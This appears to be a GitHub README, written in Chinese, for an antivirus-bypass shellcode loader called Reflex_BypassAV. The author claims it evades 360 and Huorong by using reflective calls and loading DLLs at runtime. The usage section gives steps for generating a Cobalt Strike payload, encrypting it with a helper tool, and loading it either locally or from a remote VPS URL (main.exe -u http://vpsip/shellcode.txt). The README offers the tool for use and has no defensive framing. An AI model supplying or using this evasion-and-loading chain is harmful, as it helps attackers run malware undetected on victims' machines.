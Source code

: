 # Reflex_BypassAV

***

三月份写的一个简单的免杀加载器，可以过360、火绒。

<img src="./img.jpeg">

原理就是使用反射调用加载好的函数，然后dll是在代码运行期间加载

<img src="./img1.jpg">

<img src="./img2.jpg">

使用：

```
cs生成c格式payload，只留下payload。

对shellcode进行加密，会在当前目录生成shellcode.txt
jiami.exe jia payload.c

对shellcode进行解密
jiami.exe jie shellcode.txt

使用本地加载shellcode
main.exe -f shellcode.txt

远程请求加载shellcode
main.exe -u http://vpsip/shellcode.txt
```

